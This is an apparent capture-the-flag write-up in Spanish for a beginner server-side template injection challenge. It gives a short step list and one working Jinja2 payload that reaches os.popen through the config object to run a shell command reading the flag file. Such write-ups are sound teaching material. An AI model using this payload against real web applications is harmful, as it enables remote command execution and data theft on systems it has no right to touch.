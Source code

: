# SSTI1
I made a cool website where you can announce whatever you want! Try it out!
Server Side Template Injection
## Solución
1. Entrar al sitio
2. Cargar este payload en el sitio
```{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}```
3. El sitio mostrara la bandera

### Referencias
La idea del payload fue obtenida del video https://youtu.be/qji8Wp0-1Rs?si=D-zkcXRP7lSA3Uub
